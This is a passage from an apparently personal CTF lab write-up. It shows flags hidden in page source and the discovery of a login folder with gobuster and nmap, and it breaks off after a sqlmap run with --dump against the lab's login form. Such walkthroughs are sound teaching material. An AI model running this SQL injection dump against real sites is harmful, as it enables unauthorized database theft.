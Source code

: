 The page does not show anything, but looking at the source, there is some white text hidded in the white background.

```html
<p style="text-align:center;color:white;">
	Easter 2: THM{REDACTED}
</p>
```

## Easter 3 - Login Source
Gobuster and nmap found a `/login/` folder. 

![Login Form](/assets/images/2021/06/CTFCollectionVol2/LoginForm.png "Login Form")

When I looked at the source, one flag was hidden in there.
```html
<p hidden>Seriously! You think the php script inside the source code? Pfff.. take this easter 3: THM{REDACTED}</p>
```

## Easter 4 - SQLI
While playing with the login form, I saw that it was vulnerable to [SQL Injection](https://en.wikipedia.org/wiki/SQL_injection). 

I decided to try [sqlmap](https://sqlmap.org/) on it. 

```
sqlmap -u http://target.thm/login/ --forms "username=DesKel&password=aaaa&submit=submit" --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.6#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not r
esponsible for any misuse or damage caused by this program

[*] starting @ 12:05:51 /2021-06-15/

[12:05:51] [INFO] testing connection to the target URL
[12:05:52] [INFO] searching for forms
[#1] form:
POST http://target.thm/login/
POST data: username=&password=&submit=submit
do you want to test this form? [Y/n/q]
```